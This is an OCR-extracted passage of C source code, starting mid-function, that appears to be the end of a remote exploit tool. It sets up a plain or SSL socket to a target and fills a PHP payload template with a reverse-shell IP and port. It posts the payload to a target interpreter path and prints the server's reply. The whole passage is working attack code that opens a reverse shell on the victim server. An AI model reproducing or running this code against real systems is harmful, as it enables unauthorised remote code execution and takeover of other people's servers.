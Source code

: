 >      exit(255);
>     }
>     if (!SSL_set_fd(sslconnection->handle, sockfd)) {
>      printf("SSL_set_fd error (13)\n");
>      exit(255);
>     }
>
>     if (SSL_connect(sslconnection->handle) != 1) {
>      printf("SSL_connect error (14)\n");
>      exit(255);
>     }
>    }
>
>    tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr) + 64;
>    tmpstr = (char*)calloc(tmpsize, sizeof(char));
>    snprintf(tmpstr, tmpsize, phpstr, reverseip, reverseport);
>
>    writesize = strlen(target) + strlen(interpreter) +
>      strlen(poststr) + strlen(tmpstr) + 64;
>    writestr = (char*)calloc(writesize, sizeof(char));
>    snprintf(writestr, writesize, poststr, interpreter,
>      target, strlen(tmpstr), tmpstr);
>
>    if (!httpsflag) {
>      write(sockfd, writestr, strlen(writestr));
>      readbuf = read_(sockfd);
>    } else {
>      SSL_write(sslconnection->handle, writestr, strlen(writestr));
>      readbuf = sslread(sslconnection);
>    }
>
>    if (readbuf) {
>      printf("***SERVER RESPONSE***\n\n%s\n\n", readbuf);
>    } else {
>     printf("read error (15)\n");
>     exit(255);
>    }
>   }
>   exit(1);
> }
> ```
